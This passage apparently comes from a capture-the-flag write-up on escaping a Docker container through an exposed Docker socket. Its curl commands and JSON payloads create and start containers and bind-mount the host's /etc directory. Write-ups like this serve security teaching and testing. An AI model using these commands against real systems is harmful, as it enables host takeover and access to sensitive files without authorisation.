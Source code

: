Using the ID provided above, I was able to target the `/containers/<ID>/start` endpoint to start the newly created container.

```json
curl -XPOST --unix-socket /var/run/docker.sock -H 'Content-Type: application/json'  http://localhost/containers/c18982f5857810c60deafe7fbacfec4e8569e04bf42853289b02ffdf5a121144/start
```

Okay, this seems to work. Let's now try and do something with this information. Looking back at the exploitation post, there is a `Cmd` field that I could use. In the case of the machine, they are simply trying to cat a file. I started by creating a command file which I would be able to call from the curl command as described in this post: <https://securityboulevard.com/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1/>

```json
cat > create.json << EOF
{
  "Image": "sandbox",
  "Cmd": ["/bin/sh"]
}
EOF
```

Once the command file was on disk, I was able to call it using the following curl command:

```json
curl -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d @create.json http://localhost/containers/create
```

Next, I needed to start the container:

```json
curl -XPOST --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' http://localhost/containers/eadfe9939da43a5856a56059ac9d74c8181097b34cfae5212b53cae1bdc9bedb/start --output -
```

Finally, I could run the exec against it:

```json
curl -s -XPOST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d @create.json http://localhost/containers/eadfe9939da43a5856a56059ac9d74c8181097b34cfae5212b53cae1bdc9bedb/exec
```

With the preparation completed, I was able to start the new container just as I did previously -- however, this command would mount the `/etc` directory instead:

```json
cat > create.json << EOF
{
  "Image":"sandbox",
  "Cmd":["/bin/sh"],
  "DetachKeys":"Ctrl-p,Ctrl-q",
  "OpenStdin":true,
  "Mounts":[
    {
      "Type":"bind",
      "Source":"/etc/",
      "Target":"/host_etc"
    }
  ]
}
EOF
```
